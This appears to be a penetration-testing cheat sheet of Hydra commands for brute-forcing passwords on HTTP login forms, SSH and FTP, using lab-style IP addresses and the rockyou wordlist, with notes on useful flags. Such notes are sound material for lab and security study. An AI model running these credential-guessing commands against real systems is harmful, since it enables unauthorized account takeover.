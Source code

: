 # Passwords




# Hydra


## http
sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"
hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

## ssh
`hydra -l <username> -P <full path to pass> 10.10.48.36 -t 4 ssh`
`hydra -l username -P wordlist.txt server service`
`hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.216.161 ssh`


## ftp
`hydra -l user -P passlist.txt ftp://$IP`
`hydra -l mark -P /usr/share/wordlists/rockyou.txt 10.10.212.173 ftp`
`hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV ftp://10.10.10.6`


There are some extra optional arguments that you can add:

`-s` PORT to specify a non-default port for the service in question.
`-V` or -vV, for verbose, makes Hydra show the username and password combinations that are being tried. This verbosity is very convenient to see the progress, especially if you are still not confident of your command-line syntax.
`-t` n where n is the number of parallel connections to the target. -t 16 will create 16 threads used to connect to the target.
`-d`, for debugging, to get more detailed information about what’s going on. The debugging output can save you much frustration; for instance, if Hydra tries to connect to a closed port and timing out, -d will reveal this right away.